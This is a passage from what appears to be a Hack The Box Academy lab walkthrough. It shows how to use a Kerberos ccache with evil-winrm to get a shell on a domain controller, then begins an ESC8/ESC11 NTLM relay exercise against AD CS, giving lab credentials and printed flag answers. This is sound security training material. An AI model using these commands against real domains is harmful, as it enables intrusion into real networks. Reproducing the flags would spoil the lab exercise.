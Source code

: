 Subsequently, students will come to know that a `ccache` has been generated and can be used to authenticate using `evil-winrm` to `DC01` with the `KRB5CCNAME` attribute.

Code: shell

```shell
KRB5CCNAME=jperez.ccache evil-winrm -i dc01.inlanefreight.local -r INLANEFREIGHT.LOCAL
type C:\Users\jperez\Desktop\flag.txt
```

```shell-session
htb-student@ubuntu:~$ KRB5CCNAME=jperez.ccache evil-winrm -i dc01.inlanefreight.local -r INLANEFREIGHT.LOCAL
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jperez\Documents> type C:\Users\jperez\Desktop\flag.txt

Shadow_Cr3dent1als_4ttcks
```

Answer: `Shadow_Cr3dent1als_4ttcks`

## Advanced NTLM Relay Attacks Targeting AD CS

### Question 1

#### "Abuse ESC8 or ESC11 to compromise WS01 (172.16.117.50) and then submit the file's contents located at 'C:\Users\Administrator\Desktop\flag.txt'."

Students need to spawn the target machine, they will have to use SSH to access the target machine with the provided credentials `htb-student:HTB_@cademy_stdnt!`. Students will have to note that they will need to either establish two SSH connections to the spawned target machine, use `tmux`, or connect to the target via `RDP`. This is due to the fact that they will utilize two tools `Responder` , `certipy`, and `printerbug.py`, and since those tools take over the stdin while they are running.

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```
